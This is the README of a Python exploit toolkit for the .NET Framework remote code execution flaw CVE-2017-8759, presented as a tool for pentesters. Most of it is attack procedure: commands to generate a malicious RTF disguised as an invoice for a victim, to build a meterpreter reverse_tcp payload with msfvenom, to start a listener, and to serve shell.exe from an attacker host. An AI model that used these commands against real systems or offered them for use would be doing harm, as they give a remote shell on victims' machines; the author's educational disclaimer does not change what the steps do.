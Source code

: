 ## Exploit toolkit CVE-2017-8759 - v1.0

Exploit toolkit CVE-2017-8759 - v1.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft .NET Framework RCE. It could generate a malicious RTF file and deliver metasploit / meterpreter / other payload to victim without any complex configuration. 

### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

Finally, this is a personal development, please respect its philosophy and don't use it for bad things!

### Licence

CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

### Release note:

Introduced following capabilities to the script

        - Generate Malicious RTF file
        - Exploitation mode for generated RTF file

Version: Python version 2.7.13

### Scenario: Deliver local meterpreter payload
###### Video Tutorial: https://www.youtube.com/watch?v=46jEa1bmORM
###### Example commands
        1) Generate malicious RTF file
           # python cve-2017-8759_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.txt
        2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
           # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
           # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
        3) Start toolkit in exploit mode to deliver local payload
           # python cve-2017-8759_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe

### Command line arguments:

    # python cve-2017-8759_toolkit.py -h

    This is a handy toolkit to exploit CVE-2017-8759 (Microsoft .NET Framework RCE)

    Modes:

    -M gen                                          Generate Malicious file only

         Generate malicious RTF file:

          -w <Filename.rtf>                   Name of malicious RTF file (Share this file with victim).

          -u <http://attacker.com/test.txt>   Path of remote txt file. Normally, this should be a domain or IP where this                                          tool is running.
                                                  For example, http://attackerip.com/test.txt (This URL will be included in                                                       malicious RTF file and will be requested once victim will open malicious RTF file.

                                              
    -M exp                                          Start exploitation mode

         Exploitation:
          
          -p <TCP port:Default 80>            Local port number.

          -e <http://attacker.com/shell.exe>  The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

          -l </tmp/shell.exe>                 Specify local path of an executable file / meterpreter shell / payload.

### Author

@bhdresh

### Credit

@Voulnet, @vysec, @bhdresh

### Bug, issues, feature requests

Obviously, I am not a fulltime developer so expect some hiccups

Please report bugs, issues through https://github.com/bhdresh/CVE-2017-8759/issues/new
